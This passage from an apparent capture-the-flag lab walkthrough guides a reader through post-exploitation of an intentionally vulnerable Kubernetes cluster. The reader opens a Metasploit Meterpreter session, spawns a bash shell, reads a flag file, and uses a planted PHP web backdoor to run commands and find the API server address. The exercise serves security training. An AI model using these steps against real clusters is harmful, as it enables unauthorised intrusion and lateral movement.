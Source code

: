 24. Switch back to the terminal window to see that your Metasploit console shows a "Meterpreter session N opened" where N is a number, usually 1.  Press `Enter`.

25. Interact with the meterpreter by typing `sessions -i N`, where N is that session number from the previous step.  If N = 1, type:

    ```shell
    sessions -i 1
    ```

26. Now get a shell by typing:

    ```shell
    shell
    ```

27. Let's make that environment a bit more hospitable by running a `bash` shell:

    ```shell
    bash -i
    ```

28. Find out what directory you're in, then list its contents:

    ```shell
    pwd
    ls -lart
    ```

29. Take a look around the filesystem if you like. Once you're done, look at the root filesystem of this pod and display the flag:

    ```shell
    ls /
    cat /FLAG-1.txt
    ```

30. Let's get ready to start running Kubernetes commands. First, let's make `kubectl` executable:

    ```shell
    chmod u+x kubectl
    ```

31. Next, let's get the IP address for the API server. Go back to your browser and start a new window by hitting `Control-N`.

32. In this new window, browse to the backdoor again:

    <http://bustakube-controlplane:31372/backdoor.php>

33. Copy and paste this text into the "execute command" window, then hit enter.

    ```shell
    env
    ```

34. Observe the IP address in the `KUBERNETES_PORT` variable on roughly the second line – it might be `10.96.0.1`.  You could use this in your `kubectl` commands, but we're going to use the DNS name `kubernetes.default.svc.cluster.local` to keep things simple.
